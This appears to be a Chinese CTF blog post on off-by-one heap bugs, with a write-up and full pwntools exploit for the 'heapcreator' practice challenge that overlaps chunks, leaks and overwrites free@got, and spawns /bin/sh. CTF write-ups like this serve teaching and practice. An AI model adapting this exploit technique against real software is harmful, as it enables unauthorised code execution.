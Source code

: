 ```yaml
---
title: Off-By-One
tags: [ctf-pwn,exp]
date: 2022-11-27 19:00:00
categories: [ctf-pwn]
excerpt: 堆中的 off-by-one 漏洞, hitcon_heapcreator exp
---
```


#### Off-By-One漏洞如何产生

1. 循环多一次

   ```C
   x = malloc(10);
   for(int i=0;i<=10;i++)
   {
       x[i] = getchar();
   }
   ```

   x的下一个chunk第一个字节被溢出了

2. `strlen`和`strcpy`行为不一致

   ```C
   if(strlen(buffer)==100)
   {
       strcpy(chunk,buffer);
   }
   ```

   `strlen`返回值不算结束符'`\0`，而`strcpy`复制时会把结束符在内的101个字符复制过去
   
   

#### hitcon_creator

题目来源

<https://buuoj.cn/challenges#hitcontraining_heapcreator>

##### 1. create

![](/img/off_by_one/1.png)

从上述结构可以推断出heaparray是如下结构

```C
struct heaparray_item{
    int_64   size;
    char * content;
}
struct heaparray_item * heaparray[10];
```



##### 2. edit

```C
if ( *(&heaparray + v1) )
{
    printf("Content of heap : ");
    read_input(*((_QWORD *)*(&heaparray + v1) + 1), *(_QWORD *)*(&heaparray + v1) + 1LL);
    puts("Done !");
}
```

`read_input`读取size+1字节，出现了off_by_one漏洞

可以覆盖下一个chunk的size字段



##### 漏洞利用

1. 申请三个堆块，大小为0x18,0x10,0x10，加上三次size申请的0x10，一共6个chunk

    ![](/img/off_by_one/2.jpg)

2. 修改0号块，写入`/bin/sh`，然后再溢出`0x81`到下一个chunk的size

   ![](/img/off_by_one/3.jpg)

3. 这时delete chunk 1，会合并到前一个chunk（也就是1的size所在chunk）中

    ![](/img/off_by_one/4.jpg)

    观察bins，发现这个chunk被free到fastbin的0x80节点上（0x20上也有一个chunk是因为delete也会将size释放掉）

    ![](/img/off_by_one/5.jpg)

4. 申请一个新的chunk，将0x80这个块申请出来，因此malloc的大小需要为0x70

    同时，在2号的content位置写入`free@got`

    这时调用show(2)会泄露free的地址

    ![](/img/off_by_one/6.jpg)

5. 泄露libc基址找到system地址

6. `edit(2,p64(system_addr))`时，会修改content指针指向的内容，而content指针被`free@got`替换掉了，所以free的got表被修改成了`system@got`上的地址

7. 然后`delete(0)`时，首先要free掉`heaparray[0].content`上的内容，但是由于free被替换成了system，结果就变成了以content指针为参数调用system函数的情况，而`heaparray[0].content`恰好是之前写过的`/bin/sh`，因此执行了`system('/bin/sh')

   

##### 完整exp

> libcsearcher挑版本为2.23的

```python
from pwn import *
from LibcSearcher import *
r = process('./heapcreator')
#r = remote('node4.buuoj.cn',26117)
elf = ELF('./heapcreator')

def add(size,content):
    r.sendlineafter("choice :",'1')
    r.sendlineafter("Heap : ",str(size))
    r.sendlineafter("heap:",content)

def edit(idx,content):
    r.sendlineafter("choice :",'2')
    r.sendlineafter("Index :",str(idx))
    r.sendlineafter("heap : ",content)

def show(idx):
    r.sendlineafter("choice :",'3')
    r.sendlineafter("Index :",str(idx))

def delete(idx):
    r.sendlineafter("choice :",'4')
    r.sendlineafter("Index :",str(idx))

free_got = elf.got['free']

add(0x18,"MMMM")
add(0x10,"MMMM")
add(0x10,"MMMM")
#gdb.attach(r)

edit(0,b'/bin/sh\x00'+p64(0)*2+b'\x81')
#gdb.attach(r)

delete(1)
#gdb.attach(r)

add(0x70,p64(1)*8+p64(0x8)+p64(free_got))
show(2)
#gdb.attach(r)

free_addr = u64(r.recvuntil(b'\x7f')[-6:].ljust(8,b'\x00'))

#libc
libc = LibcSearcher('free',free_addr)
offset = free_addr-libc.dump('free')
system_addr = offset + libc.dump('system')

edit(2,p64(system_addr))
#gdb.attach(r)
delete(0)

r.interactive()
```

